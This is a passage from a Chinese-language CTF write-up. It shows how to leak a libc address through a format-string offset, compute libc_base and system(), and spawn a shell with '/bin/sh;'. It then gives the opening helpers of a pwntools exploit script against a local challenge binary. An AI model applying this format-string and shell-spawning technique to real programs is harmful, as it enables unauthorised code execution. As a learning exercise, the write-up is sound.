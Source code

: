![image-20220712222519598](https://cdn.novanoir.moe/img/image-20220712222519598.png)

根据栈布局，我们可以找到`0x7ffe3a3d1758`这个位置是`printf+153`的位置，我们使用`fmtarg 0x7ffe3a3d1758`来计算一下偏移（不然就6+12-1)也行

```sh
pwndbg> fmtarg 0x7ffe3a3d1758
The index of format argument : 18 ("\%17$p")
```

这样，`printf+153`的地址就出来了

![image-20220712222931911](https://cdn.novanoir.moe/img/image-20220712222931911.png)

接下来就是常规了，`libc_database`找`libc`版本然后计算`libc_base`，计算`system_addr`，构造`/bin/sh;`

> 注意的是这里构造的是`/bin/sh;`而不是`/bin/sh\x00`，具体原因我也不清楚，好像是因为`system()`不止执行`/bin/sh`所以不能截断



完整exp:

```python
from typing import Literal, Optional, AnyStr
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process(['./pwn'])


def menu(index: Literal[1, 2, 3]):
    sh.recvuntil(b"3.quit")
    if index == 1:
        sh.sendline(b"create string")
        return
    if index == 2:
        sh.sendline(b"delete string")
        return
    if index == 3:
        sh.sendline(b"quit string")


def create(length_: int, content: AnyStr):
    menu(1)
    sh.sendlineafter(b"Pls give string size:", str(length_).encode())
    content = content if isinstance(content, bytes) else str(content).encode()
    content = content.ljust(length_, b'\x00')
    sh.sendlineafter(b"str:", content)


def delete(index: int, extra: Optional[AnyStr] = b''):
    menu(2)
    sh.sendlineafter(b"id:", str(index).encode())
    if isinstance(extra, str):
        extra = extra.encode()
    sh.sendlineafter(b"Are you sure?:", b"yes" + extra)


def quit_():
    menu(3)


def gdb_(time_: Optional[int] = None, arg: Optional[str] = None):
    gdb.attach(sh, arg)
    pause(time_)
```